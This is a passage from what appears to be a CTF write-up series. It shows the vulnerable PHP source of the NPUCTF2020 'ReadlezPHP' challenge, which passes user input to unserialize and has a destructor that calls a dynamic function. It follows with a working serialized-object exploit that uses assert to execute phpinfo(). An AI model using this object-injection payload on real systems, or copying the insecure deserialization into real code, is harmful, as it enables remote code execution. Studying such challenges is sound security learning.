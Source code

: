 # 0x38.[NPUCTF2020]ReadlezPHP

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}
@$ppp = unserialize($_GET["data"]);
2021-10-05 10:21:03
```

可以直接命令执行：

```php
<?php
class HelloPhp
{
    public $b="assert";
    public $a="phpinfo()";
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;
echo serialize($c);
?>
```

# 0x39.[CISCN2019 华东南赛区]Web11(SSTI)
